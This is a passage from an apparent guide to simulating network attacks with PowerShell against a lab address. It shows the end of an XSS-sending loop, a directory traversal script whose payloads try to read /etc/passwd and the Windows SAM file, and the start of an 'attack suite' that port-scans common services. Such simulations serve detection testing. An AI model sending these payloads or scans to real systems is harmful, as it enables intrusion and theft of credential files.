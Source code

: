 ```powershell
    
    try {
        Invoke-WebRequest -Uri $url -TimeoutSec 2 -ErrorAction Stop
    } catch {
        Write-Host "Sent XSS: $payload" -ForegroundColor Yellow
    }
    
    Start-Sleep -Seconds 1
}

Write-Host "Complete!" -ForegroundColor Green
```

### 7. Directory Traversal Simulation

```powershell
# Directory traversal attempts
$target = "http://192.168.100.1/download"

$traversalPayloads = @(
    "../../../../etc/passwd",
    "..\..\..\..\windows\system32\config\sam",
    "....//....//....//etc/passwd",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",
    "..%252f..%252f..%252fetc%252fpasswd"
)

Write-Host "Simulating directory traversal attacks..." -ForegroundColor Cyan

foreach ($payload in $traversalPayloads) {
    $url = "${target}?file=${payload}"
    
    try {
        Invoke-WebRequest -Uri $url -TimeoutSec 2 -ErrorAction Stop
    } catch {
        Write-Host "Sent traversal: $payload" -ForegroundColor Yellow
    }
    
    Start-Sleep -Seconds 1
}

Write-Host "Complete!" -ForegroundColor Green
```

### 8. Multi-Attack Comprehensive Suite

```powershell
# save as: comprehensive_attack_suite.ps1

$target = "192.168.100.1"
$webTarget = "http://$target"

Write-Host "╔════════════════════════════════════════╗" -ForegroundColor Cyan
Write-Host "║  Comprehensive Attack Simulation       ║" -ForegroundColor Cyan
Write-Host "╚════════════════════════════════════════╝" -ForegroundColor Cyan
Write-Host ""

# Attack 1: Reconnaissance - Port Scan
Write-Host "[1/6] Reconnaissance - Port Scanning..." -ForegroundColor Yellow
$commonPorts = @(21, 22, 23, 25, 53, 80, 110, 143, 443, 445, 3306, 3389, 8080, 8443)
foreach ($port in $commonPorts) {
    Test-NetConnection -ComputerName $target -Port $port -WarningAction SilentlyContinue | Out-Null
    Write-Host "  Scanned port $port" -ForegroundColor Gray
}
```